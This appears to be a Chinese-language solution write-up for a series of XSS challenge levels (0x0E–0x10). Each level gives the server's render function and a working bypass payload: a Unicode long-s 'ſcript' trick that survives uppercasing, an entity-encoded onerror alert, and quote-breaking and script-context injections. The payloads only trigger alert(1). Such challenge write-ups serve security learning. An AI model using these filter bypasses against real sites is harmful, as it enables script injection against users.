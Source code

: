 
## 0x0E
这个绕过是利用字符大小写的区别的
`ſ`的大写是S，应该是古英语的转换问题，反找就行
[Unicode字符表 (rapidtables.org)](https://www.rapidtables.org/zh-CN/code/text/unicode-characters.html)
servercode
```js
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

input
```html
<ſcript src="" onerror=&#97;&#108;&#101;&#114;&#116;(1)></script>
```

## 0x0F
在html的标签中编码是可以被识别的所以直接不管
servercode
```js
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```
input
```html
'); alert('1
```

## 0x10
在后面接就可以了
servercode
```js
function render (input) {
  return `
<script>
  window.data = ${input}
</script>
  `
}
```
input
```html
''; alert(1)
```
